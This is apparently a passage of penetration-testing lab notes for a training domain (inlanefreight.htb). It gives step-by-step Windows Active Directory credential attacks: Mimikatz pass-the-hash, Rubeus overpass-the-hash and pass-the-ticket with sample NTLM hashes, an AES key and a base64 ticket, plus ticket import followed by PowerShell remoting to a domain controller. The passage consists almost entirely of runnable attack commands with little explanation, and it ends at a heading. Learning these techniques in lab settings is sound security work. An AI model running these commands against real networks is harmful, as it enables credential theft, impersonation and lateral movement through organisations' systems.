 ```cmd
mimikatz # sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.
#### Rubeus - Pass the Key or OverPass the Hash
```cmd
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

```
https://github.com/GhostPack/Rubeus#example-over-pass-the-hash
## Pass the Ticket (PtT)
Now that we have some Kerberos tickets, we can use them to move laterally within an environment.
#### Rubeus - Pass the Ticket
```cmd
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

```cmd
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.
#### Convert .kirbi to base64
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
````
#### Pass base64
```cmd
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
````
#### #Mimikatz - Pass the Ticket
```cmd
mimikatz.exe 

mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```
## Pass The Ticket with PowerShell Remoting (Windows)
#### #Mimikatz - Pass the Ticket for Lateral Movement.
```cmd
mimikatz.exe

mimikatz # privilege::debug

mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

mimikatz # exit

c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName DC01
```
### #Rubeus - PowerShell Remoting with Pass the Ticket